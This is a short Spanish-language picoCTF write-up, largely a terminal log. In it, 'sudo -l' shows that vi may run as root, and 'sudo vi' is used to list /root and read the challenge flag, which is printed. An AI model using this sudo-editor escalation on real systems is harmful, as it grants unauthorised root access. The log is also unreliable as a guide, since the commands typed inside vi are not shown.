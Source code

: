 Nos conectamos con las credenciales


Solucion

picoplayer@challenge:/$ ls /
bin   challenge  etc   lib    lib64   media  opt   root  sbin  sys  usr
boot  dev        home  lib32  libx32  mnt    proc  run   srv   tmp  var
picoplayer@challenge:/$ sudo -l
[sudo] password for picoplayer: 
Matching Defaults entries for picoplayer on challenge:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User picoplayer may run the following commands on challenge:
    (ALL) /usr/bin/vi
picoplayer@challenge:/$ vi 

bin   challenge  etc   lib    lib64   media  opt   root  sbin  sys  usr
boot  dev        home  lib32  libx32  mnt    proc  run   srv   tmp  var

Press ENTER or type command to continue
picoplayer@challenge:/$ vi

ls: cannot open directory '/root': Permission denied

shell returned 2

Press ENTER or type command to continue
picoplayer@challenge:/$ sudo vi


Press ENTER or type command to continue
total 12
drwx------ 1 root root   23 Aug  4  2023 .
drwxr-xr-x 1 root root   51 Feb 25 03:42 ..
-rw-r--r-- 1 root root 3106 Dec  5  2019 .bashrc
-rw-r--r-- 1 root root   35 Aug  4  2023 .flag.txt
-rw-r--r-- 1 root root  161 Dec  5  2019 .profile

Press ENTER or type command to continue
picoCTF{uS1ng_v1m_3dit0r_55878b51}

Press ENTER or type command to continueConnection to saturn.picoctf.net closed by remote host.
Connection to saturn.picoctf.net closed.
Luiscat02-picoctf@webshell:/$ 